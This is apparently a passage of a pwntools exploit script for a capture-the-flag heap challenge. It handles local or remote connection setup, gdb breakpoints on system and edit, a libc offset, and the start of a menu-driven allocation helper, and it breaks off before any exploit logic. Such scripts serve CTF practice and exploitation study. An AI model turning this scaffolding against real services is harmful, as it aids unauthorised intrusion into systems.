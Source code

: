 ```python
#
#	***************************
#	* Pwning exploit template *
#	* Arthor: Cobra           *
#	***************************
#

from pwn import *
import sys

local = 0
debug = 0

context.arch = 'amd64'
# context.aslr = False
# context.log_level = 'debug'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# context.timeout = 2

def conn():
	global local
	global debug

	for arg in sys.argv[1:]:
		if arg in ('-h', '--help'):
			print('Usage: python ' + sys.argv[0] + ' <option> ...')
			print('Option:')
			print('        -h, --help:     Show help')
			print('        -l, --local:    Running on local')
			print('        -d, --debug:    Use gdb auto attach')
			exit(0)
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		s = process('./chall_patched')
		if debug:
			gdb.attach(s, gdbscript='''
				b*show
				b*edit+233
				b*system
			''' + 'c\n' * 1)
		else:
			raw_input('DEBUG')
	else:
		s = remote('34.143.130.87', 4096)

	return s

s = conn()

elf = ELF('./chall_patched')
libc = ELF('libc.so.6')

offset = 0x21a580

def create(index, size, data = None):
	s.sendlineafter(b'Your choice : ', b'1')
	s.sendlineafter(b'Index: ', str(index).encode())
	s.sendlineafter(b'Size: ', str(size).encode())
	if data:
```